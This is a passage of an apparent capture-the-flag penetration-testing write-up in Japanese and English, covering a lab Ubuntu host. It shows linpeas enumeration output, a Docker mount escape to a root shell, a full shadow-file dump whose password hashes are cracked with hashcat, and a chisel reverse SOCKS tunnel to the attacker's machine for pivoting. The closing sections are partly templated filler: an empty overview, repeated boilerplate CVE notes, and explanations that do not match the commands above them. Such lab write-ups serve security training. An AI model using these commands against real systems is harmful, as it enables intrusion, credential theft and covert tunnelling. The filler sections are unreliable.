    -rw-r--r-- 1 root root    139 Sep  7  2020 dpkg.diversions.5.gz
    -rw-r--r-- 1 root root    139 Sep  7  2020 dpkg.diversions.6.gz
    -rw-r--r-- 1 root root    172 Nov  3  2020 dpkg.statoverride.0
    -rw-r--r-- 1 root root    161 Nov  3  2020 dpkg.statoverride.1.gz
    -rw-r--r-- 1 root root    161 Nov  3  2020 dpkg.statoverride.2.gz
    -rw-r--r-- 1 root root    161 Nov  3  2020 dpkg.statoverride.3.gz
    -rw-r--r-- 1 root root    161 Nov  3  2020 dpkg.statoverride.4.gz
    -rw-r--r-- 1 root root    161 Nov  3  2020 dpkg.statoverride.5.gz
    -rw-r--r-- 1 root root    161 Nov  3  2020 dpkg.statoverride.6.gz
    -rw-r--r-- 1 root root 707675 Jun 24  2021 dpkg.status.0
    -rw-r--r-- 1 root root 181970 Jun 24  2021 dpkg.status.1.gz
    -rw-r--r-- 1 root root 181970 Jun 24  2021 dpkg.status.2.gz
    -rw-r--r-- 1 root root 181968 Jun 23  2021 dpkg.status.3.gz
    -rw-r--r-- 1 root root 181975 Jun 18  2021 dpkg.status.4.gz
    -rw-r--r-- 1 root root 181975 Jun 18  2021 dpkg.status.5.gz
    -rw-r--r-- 1 root root 181975 Jun 18  2021 dpkg.status.6.gz
    
    ╔══════════╣ Backup files (limited 100)
    -rw-r--r-- 1 root root 4096 Sep 29 08:43 /sys/devices/virtual/net/veth85d246d/brport/backup_port
    -rw-r--r-- 1 root root 171 Sep 29 06:42 /run/blkid/blkid.tab.old
    -rwxr-xr-x 1 root root 1086 Nov 25  2019 /usr/src/linux-aws-headers-5.4.0-1030/tools/testing/selftests/net/tcp_fastopen_backup_key.sh
    -rwxr-xr-x 1 root root 1086 Nov 25  2019 /usr/src/linux-aws-headers-5.4.0-1024/tools/testing/selftests/net/tcp_fastopen_backup_key.sh
    -rw-r--r-- 1 root root 0 Oct 20  2020 /usr/src/linux-headers-5.4.0-1029-aws/include/config/wm831x/backup.h
    -rw-r--r-- 1 root root 0 Oct 20  2020 /usr/src/linux-headers-5.4.0-1029-aws/include/config/net/team/mode/activebackup.h
    -rw-r--r-- 1 root root 176855 Oct 20  2020 /usr/src/linux-headers-5.4.0-1029-aws/.config.old
    -rw-r--r-- 1 root root 0 Sep  4  2020 /usr/src/linux-headers-5.4.0-1024-aws/include/config/wm831x/backup.h
    -rw-r--r-- 1 root root 0 Sep  4  2020 /usr/src/linux-headers-5.4.0-1024-aws/include/config/net/team/mode/activebackup.h
    -rw-r--r-- 1 root root 176412 Sep  4  2020 /usr/src/linux-headers-5.4.0-1024-aws/.config.old
    -rwxr-xr-x 1 root root 1086 Nov 25  2019 /usr/src/linux-aws-headers-5.4.0-1029/tools/testing/selftests/net/tcp_fastopen_backup_key.sh
    -rw-r--r-- 1 root root 0 Nov 12  2020 /usr/src/linux-headers-5.4.0-1030-aws/include/config/wm831x/backup.h
    -rw-r--r-- 1 root root 0 Nov 12  2020 /usr/src/linux-headers-5.4.0-1030-aws/include/config/net/team/mode/activebackup.h
    -rw-r--r-- 1 root root 176836 Nov 12  2020 /usr/src/linux-headers-5.4.0-1030-aws/.config.old
    -rw-r--r-- 1 root root 44048 Jun 22  2020 /usr/lib/open-vm-tools/plugins/vmsvc/libvmbackup.so
    -rw-r--r-- 1 root root 39448 Oct 22  2020 /usr/lib/mysql/plugin/component_mysqlbackup.so
    -rw-r--r-- 1 root root 1403 Oct 31  2020 /usr/lib/python3/dist-packages/sos/report/plugins/__pycache__/ovirt_engine_backup.cpython-38.pyc
    -rw-r--r-- 1 root root 1775 Aug 17  2020 /usr/lib/python3/dist-packages/sos/report/plugins/ovirt_engine_backup.py
    -rw-r--r-- 1 root root 11886 Jun 18  2021 /usr/share/info/dir.old
    -rwxr-xr-x 1 root root 226 Feb 17  2020 /usr/share/byobu/desktop/byobu.desktop.old
    -rw-r--r-- 1 root root 7251 Mar 23  2020 /usr/share/nmap/scripts/http-config-backup.nse
    -rw-r--r-- 1 root root 5484 Mar 23  2020 /usr/share/nmap/scripts/http-backup-finder.nse
    -rw-r--r-- 1 root root 7867 Jul 16  1996 /usr/share/doc/telnet/README.old.gz
    -rw-r--r-- 1 root root 392817 Feb  9  2020 /usr/share/doc/manpages/Changes.old.gz
    -rw-r--r-- 1 root root 2756 Feb 13  2020 /usr/share/man/man8/vgcfgbackup.8.gz
    
    ╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
    Found /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3031001
    Found /var/lib/command-not-found/commands.db: SQLite 3.x database, last written using SQLite version 3031001
    Found /var/lib/fwupd/pending.db: SQLite 3.x database, last written using SQLite version 3031001
    
     -> Extracting tables from /var/lib/PackageKit/transactions.db (limit 20)
     -> Extracting tables from /var/lib/command-not-found/commands.db (limit 20)
     -> Extracting tables from /var/lib/fwupd/pending.db (limit 20)
    
    ╔══════════╣ Web files?(output limit)
    /var/www/:
    total 16K
    drwxr-xr-x  3 mysql adm  4.0K Dec  5  2020 .
    drwxr-xr-x 13 mysql adm  4.0K Nov  4  2020 ..
    drwsrwsrwx  7 mysql adm  4.0K Sep 29 08:41 html
    -rwxrwxrwx  1 root  root   39 Dec  5  2020 user.txt
    
    /var/www/html:
    total 876K
    drwsrwsrwx 7 mysql    adm   4.0K Sep 29 08:41 .
    
    ╔══════════╣ All relevant hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
    -rw-r--r-- 1 ubuntu ubuntu 220 Feb 25  2020 /home/ubuntu/.bash_logout
    -rw-r--r-- 1 linux-admin linux-admin 220 Nov  4  2020 /home/linux-admin/.bash_logout
    -rw-r--r-- 1 landscape landscape 0 Sep  7  2020 /var/lib/landscape/.cleanup.user
    -rw-r--r-- 1 mysql mysql 6148 Nov  3  2020 /var/www/html/images/.DS_Store
    -rw-r--r-- 1 mysql mysql 6148 Nov  3  2020 /var/www/html/sass/.DS_Store
    -rw-r--r-- 1 mysql mysql 6148 Nov  3  2020 /var/www/html/css/.DS_Store
    -rw-r--r-- 1 mysql mysql 6148 Nov  3  2020 /var/www/html/js/.DS_Store
    -rw-r--r-- 1 mysql mysql 6148 Nov  3  2020 /var/www/html/fonts/.DS_Store
    -rw-r--r-- 1 root root 0 Sep 29 06:42 /run/ubuntu-fan/.lock
    -rw-r--r-- 1 root root 20 Sep 29 06:42 /run/cloud-init/.instance-id
    -rw-r--r-- 1 root root 2 Sep 29 06:42 /run/cloud-init/.ds-identify.result
    -rw------- 1 root root 0 Sep  7  2020 /etc/.pwd.lock
    -rw-r--r-- 1 root root 220 Feb 25  2020 /etc/skel/.bash_logout
    
    ╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)
    -rw-r--r-- 1 www-data www-data 0 Sep 29 07:54 /tmp/linpeas.sh
    -rw-r--r-- 1 root root 2518 Nov  1  2020 /var/backups/alternatives.tar.2.gz
    -rw-r--r-- 1 root root 2790 Nov  4  2020 /var/backups/alternatives.tar.1.gz
    -rw-r--r-- 1 root root 61440 Jan 15  2021 /var/backups/alternatives.tar.0
    
    ╔══════════╣ Searching passwords in history files
    
    ╔══════════╣ Searching passwords in config PHP files
    /home/docker/wordpress/wp-admin/setup-config.php:               $pwd    = trim( wp_unslash( $_POST['pwd'] ) );
    
    ╔══════════╣ Searching *password* or *credential* files in home (limit 70)
    /etc/pam.d/common-password
    /home/docker/admin/supersecretdir/creds.txt
    /home/docker/wordpress/wp-admin/js/password-strength-meter.js
    /home/docker/wordpress/wp-admin/js/password-strength-meter.min.js
    /usr/bin/systemd-ask-password
    /usr/bin/systemd-tty-ask-password-agent
    /usr/include/mysql/password.h
    /usr/lib/git-core/git-credential
    /usr/lib/git-core/git-credential-cache
    /usr/lib/git-core/git-credential-cache--daemon
    /usr/lib/git-core/git-credential-store
      #)There are more creds/passwds files in the previous parent folder
    
    /usr/lib/grub/i386-pc/password.mod
    /usr/lib/grub/i386-pc/password_pbkdf2.mod
    /usr/lib/mysql/plugin/component_validate_password.so
    /usr/lib/mysql/plugin/validate_password.so
    /usr/lib/python3/dist-packages/cloudinit/config/__pycache__/cc_set_passwords.cpython-38.pyc
    /usr/lib/python3/dist-packages/cloudinit/config/cc_set_passwords.py
    /usr/lib/python3/dist-packages/keyring/__pycache__/credentials.cpython-38.pyc
    /usr/lib/python3/dist-packages/keyring/credentials.py
    /usr/lib/python3/dist-packages/launchpadlib/__pycache__/credentials.cpython-38.pyc
    /usr/lib/python3/dist-packages/launchpadlib/credentials.py
    /usr/lib/python3/dist-packages/launchpadlib/tests/__pycache__/test_credential_store.cpython-38.pyc
    /usr/lib/python3/dist-packages/launchpadlib/tests/test_credential_store.py
    /usr/lib/python3/dist-packages/oauthlib/oauth2/rfc6749/grant_types/__pycache__/client_credentials.cpython-38.pyc
    /usr/lib/python3/dist-packages/oauthlib/oauth2/rfc6749/grant_types/__pycache__/resource_owner_password_credentials.cpython-38.pyc
    /usr/lib/python3/dist-packages/oauthlib/oauth2/rfc6749/grant_types/client_credentials.py
    /usr/lib/python3/dist-packages/oauthlib/oauth2/rfc6749/grant_types/resource_owner_password_credentials.py
    /usr/lib/python3/dist-packages/twisted/cred/__pycache__/credentials.cpython-38.pyc
    /usr/lib/python3/dist-packages/twisted/cred/credentials.py
    /usr/lib/systemd/system/multi-user.target.wants/systemd-ask-password-wall.path
    /usr/lib/systemd/system/sysinit.target.wants/systemd-ask-password-console.path
    /usr/lib/systemd/system/systemd-ask-password-console.path
    /usr/lib/systemd/system/systemd-ask-password-console.service
    /usr/lib/systemd/system/systemd-ask-password-plymouth.path
    /usr/lib/systemd/system/systemd-ask-password-plymouth.service
      #)There are more creds/passwds files in the previous parent folder
    
    /usr/share/dns/root.key
    /usr/share/doc/git/contrib/credential
    /usr/share/doc/git/contrib/credential/gnome-keyring/git-credential-gnome-keyring.c
    /usr/share/doc/git/contrib/credential/libsecret/git-credential-libsecret.c
    /usr/share/doc/git/contrib/credential/netrc/git-credential-netrc
    /usr/share/doc/git/contrib/credential/netrc/t-git-credential-netrc.sh
    /usr/share/doc/git/contrib/credential/osxkeychain/git-credential-osxkeychain.c
    /usr/share/doc/git/contrib/credential/wincred/git-credential-wincred.c
    /usr/share/man/man1/git-credential-cache--daemon.1.gz
    /usr/share/man/man1/git-credential-cache.1.gz
    /usr/share/man/man1/git-credential-store.1.gz
    /usr/share/man/man1/git-credential.1.gz
      #)There are more creds/passwds files in the previous parent folder
    
    /usr/share/man/man7/gitcredentials.7.gz
    /usr/share/man/man8/systemd-ask-password-console.path.8.gz
    /usr/share/man/man8/systemd-ask-password-console.service.8.gz
    /usr/share/man/man8/systemd-ask-password-wall.path.8.gz
    /usr/share/man/man8/systemd-ask-password-wall.service.8.gz
      #)There are more creds/passwds files in the previous parent folder
    
    /usr/share/nmap/nselib/data/passwords.lst
    /usr/share/nmap/scripts/creds-summary.nse
    /usr/share/nmap/scripts/http-domino-enum-passwords.nse
    /usr/share/nmap/scripts/ms-sql-empty-password.nse
    /usr/share/nmap/scripts/mysql-empty-password.nse
      #)There are more creds/passwds files in the previous parent folder
    
    /usr/share/pam/common-password.md5sums
    /var/cache/debconf/passwords.dat
    /var/lib/cloud/instances/i-0494b7daf966d6e09/sem/config_set_passwords
    
    ╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
    
    ╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
    
    ╔══════════╣ Searching passwords inside logs (limit 70)
    2020-10-31 22:18:51,672 - util.py[DEBUG]: Running command ['passwd', '-l', 'ubuntu'] with allowed return codes [0] (shell=False, capture=True)
    2020-10-31 22:19:13,552 - cc_set_passwords.py[DEBUG]: Leaving SSH config 'PasswordAuthentication' unchanged. ssh_pwauth=None
    2020-10-31 22:19:13,552 - util.py[DEBUG]: Writing to /var/lib/cloud/instances/i-0f34ea9ce9deb0335/sem/config_set_passwords - wb: [644] 25 bytes
    2020-12-11 16:56:02,448 - subp.py[DEBUG]: Running command ['passwd', '-l', 'ubuntu'] with allowed return codes [0] (shell=False, capture=True)
    2020-12-11 16:56:05,882 - util.py[DEBUG]: Writing to /var/lib/cloud/instances/i-0d6e5f5b53a028ebb/sem/config_set_passwords - wb: [644] 24 bytes
    2020-12-11 16:56:05,883 - cc_set_passwords.py[DEBUG]: Leaving SSH config 'PasswordAuthentication' unchanged. ssh_pwauth=None
    2020-12-16 23:41:54,216 - subp.py[DEBUG]: Running command ['passwd', '-l', 'ubuntu'] with allowed return codes [0] (shell=False, capture=True)
    2020-12-16 23:41:57,732 - cc_set_passwords.py[DEBUG]: Leaving SSH config 'PasswordAuthentication' unchanged. ssh_pwauth=None
    2020-12-16 23:41:57,732 - util.py[DEBUG]: Writing to /var/lib/cloud/instances/i-0690b124d91bc5d9f/sem/config_set_passwords - wb: [644] 24 bytes
    2024-09-24 16:47:05,189 - subp.py[DEBUG]: Running command ['passwd', '-l', 'ubuntu'] with allowed return codes [0] (shell=False, capture=True)
    2024-09-24 16:47:07,122 - util.py[DEBUG]: Writing to /var/lib/cloud/instances/i-0494b7daf966d6e09/sem/config_set_passwords - wb: [644] 24 bytes
    2024-09-24 16:47:07,123 - cc_set_passwords.py[DEBUG]: Leaving SSH config 'PasswordAuthentication' unchanged. ssh_pwauth=None
    [    2.166353] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
    [    2.171460] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
    
                                    ╔════════════════╗
    ════════════════════════════════╣ API Keys Regex ╠════════════════════════════════
                                    ╚════════════════╝
    Regexes to search for API keys aren't activated, use param '-r'
    ```
    
```bash
/usr/bin/docker run -v /:/mnt --rm -i ubuntu:18.04 chroot /mnt sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
            .-/+oossssoo+/-.               root@c3daa4cbef79
        `:+ssssssssssssssssss+:`           -----------------
      -+ssssssssssssssssssyyssss+-         OS: Ubuntu 20.04.1 LTS x86_64
    .ossssssssssssssssssdMMMNysssso.       Host: HVM domU 4.11.amazon
   /ssssssssssshdmmNNmmyNMMMMhssssss/      Kernel: 5.4.0-1030-aws
  +ssssssssshmydMMMMMMMNddddyssssssss+     Uptime: 4 mins
 /sssssssshNMMMyhhyyyyhmNMMMNhssssssss/    Packages: 709 (dpkg)
.ssssssssdMMMNhsssssssssshNMMMdssssssss.   Shell: bash 5.0.17
+sssshhhyNMMNyssssssssssssyNMMMysssssss+   Terminal: kthreadd
ossyNMMMNyMMhsssssssssssssshmmmhssssssso   CPU: Intel Xeon E5-2686 v4 (2) @ 2.299GHz
ossyNMMMNyMMhsssssssssssssshmmmhssssssso   GPU: 00:02.0 Cirrus Logic GD 5446
+sssshhhyNMMNyssssssssssssyNMMMysssssss+   Memory: 742MiB / 3933MiB
.ssssssssdMMMNhsssssssssshNMMMdssssssss.
 /sssssssshNMMMyhhyyyyhdNMMMNhssssssss/
  +sssssssssdmydMMMMMMMMddddyssssssss+
   /ssssssssssshdmNNNNmyNMMMMhssssss/
    .ossssssssssssssssssdMMMNysssso.
      -+sssssssssssssssssyyyssss+-
        `:+ssssssssssssssssss+:`
            .-/+oossssoo+/-.

root@c3daa4cbef79:/#
root:$6$TvYo6Q8EXPuYD8w0$Yc.Ufe3ffMwRJLNroJuMvf5/Telga69RdVEvgWBC.FN5rs9vO0NeoKex4jIaxCyWNPTDtYfxWn.EM4OLxjndR1:18605:0:99999:7:::
daemon:*:18512:0:99999:7:::
bin:*:18512:0:99999:7:::
sys:*:18512:0:99999:7:::
sync:*:18512:0:99999:7:::
games:*:18512:0:99999:7:::
man:*:18512:0:99999:7:::
lp:*:18512:0:99999:7:::
mail:*:18512:0:99999:7:::
news:*:18512:0:99999:7:::
uucp:*:18512:0:99999:7:::
proxy:*:18512:0:99999:7:::
www-data:*:18512:0:99999:7:::
backup:*:18512:0:99999:7:::
list:*:18512:0:99999:7:::
irc:*:18512:0:99999:7:::
gnats:*:18512:0:99999:7:::
nobody:*:18512:0:99999:7:::
systemd-network:*:18512:0:99999:7:::
systemd-resolve:*:18512:0:99999:7:::
systemd-timesync:*:18512:0:99999:7:::
messagebus:*:18512:0:99999:7:::
syslog:*:18512:0:99999:7:::
_apt:*:18512:0:99999:7:::
tss:*:18512:0:99999:7:::
uuidd:*:18512:0:99999:7:::
tcpdump:*:18512:0:99999:7:::
sshd:*:18512:0:99999:7:::
landscape:*:18512:0:99999:7:::
pollinate:*:18512:0:99999:7:::
ec2-instance-connect:!:18512:0:99999:7:::
systemd-coredump:!!:18566::::::
ubuntu:!$6$6/mlN/Q.1gopcuhc$7ymOCjV3RETFUl6GaNbau9MdEGS6NgeXLM.CDcuS5gNj2oIQLpRLzxFuAwG0dGcLk1NX70EVzUUKyUQOezaf0.:18601:0:99999:7:::
lxd:!:18566::::::
mysql:!:18566:0:99999:7:::
dnsmasq:*:18566:0:99999:7:::
linux-admin:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:18570:0:99999:7:::
hashcat -m 1800 -a 0 ubuntu.txt /usr/share/wordlists/rockyou.txt
$6$6/mlN/Q.1gopcuhc$7ymOCjV3RETFUl6GaNbau9MdEGS6NgeXLM.CDcuS5gNj2oIQLpRLzxFuAwG0dGcLk1NX70EVzUUKyUQOezaf0.:password
```

kali側

```
chisel server -p 9000 --reverse
```

サーバ側

www-data@ip-10-200-107-33:/var/www/html$ ./chisel client 10.50.103.3:9000 R:socks
</www/html$ ./chisel client 10.50.103.3:9000 R:socks
2024/09/29 12:17:32 client: Connecting to ws://10.50.103.3:9000
2024/09/29 12:17:34 client: Connected (Latency 245.133876ms)
bash: [6199: 2 (255)] tcsetattr: Inappropriate ioctl for device
socks5  127.0.0.1 1080

💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```bash
✅[CPU:1][MEM:24][IP:10.50.103.3]/home/n0z0 🐉 sudo nmap -sn -n 10.200.107.0/24 192.168.127.0/24 -oA Ping-Sweep
[sudo] password for n0z0:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-29 00:29 JST
Nmap scan report for 10.200.107.33
Host is up (0.25s latency).
Nmap scan report for 10.200.107.250
Host is up (0.25s latency).
Nmap scan report for 192.168.127.1
Host is up (0.00088s latency).
MAC Address: 5A:94:EF:E4:0C:DD (Unknown)
Nmap scan report for 192.168.127.254
Host is up (0.00072s latency).
MAC Address: 5A:94:EF:E4:0C:DD (Unknown)
Nmap scan report for 192.168.127.2
Host is up.
Nmap done: 512 IP addresses (5 hosts up) scanned in 19.32 seconds
```

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
認証情報なし。
```

## まとめ・学んだこと

### 4.Overview

---



### CVE Notes

- **CVE-2002-1614**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2011-1485**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2016-20012**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2017-5618**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2019-13272**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2020-12062**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2020-14145**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2020-15778**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2021-22555**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2021-28041**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2021-3156**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2021-36368**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2021-4034**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2021-41617**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2022-2586**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2022-32250**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2023-38408**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2023-48795**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2023-51385**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **cve-2021-22555**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **cve-2021-3156**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **cve-2021-4034**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **cve-2022-32250**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.

## 参考文献

- nmap
- rustscan
- netcat
- nc
- linpeas
- sudo
- ssh
- curl
- wget
- cat
- grep
- find
- sed
- base64
- python
- php
- CVE-2002-1614
- CVE-2011-1485
- CVE-2016-20012
- CVE-2017-5618
- CVE-2019-13272
- CVE-2020-12062
- CVE-2020-14145
- CVE-2020-15778
- CVE-2021-22555
- CVE-2021-28041
- CVE-2021-3156
- CVE-2021-36368
- CVE-2021-4034
- CVE-2021-41617
- CVE-2022-2586
- CVE-2022-32250
- CVE-2023-38408
- CVE-2023-48795
- CVE-2023-51385
- cve-2021-22555
- cve-2021-3156
- cve-2021-4034
- cve-2022-32250
- GTFOBins
